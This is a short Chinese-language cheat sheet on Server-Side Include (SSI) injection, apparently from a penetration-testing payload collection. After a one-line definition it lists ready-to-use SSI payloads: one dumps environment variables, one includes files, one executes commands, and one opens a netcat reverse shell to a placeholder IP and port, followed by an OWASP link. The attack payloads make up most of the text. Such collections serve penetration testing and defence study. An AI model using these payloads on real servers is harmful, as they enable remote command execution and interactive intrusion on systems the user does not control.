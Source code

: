 # 服务器端包含注入

> 服务器端包含（SSI）是在HTML页面中放置的指令，在页面被服务时由服务器评估。它们允许您在现有的HTML页面中添加动态生成的内容，而无需通过CGI程序或其他动态技术来提供整个页面。


## 摘要

* [有效载荷](#payloads)
* [参考资料](#references)


## 有效载荷

| 描述          | 有效载荷                                                     |
| ------------- | ------------------------------------------------------------ |
| 打印日期      | `<!--#echo var="DATE_LOCAL" -->`                             |
| 打印所有变量  | `<!--#printenv -->`                                          |
| 包含一个文件  | `<!--#include file="includefile.html" -->`                   |
| 执行命令      | `<!--#exec cmd="ls" -->`                                     |
| 进行反向shell | `<!--#exec cmd="mkfifo /tmp/foo;nc IP PORT 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->` |


## 参考资料

* [服务器端包含（SSI）注入 - OWASP](https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection)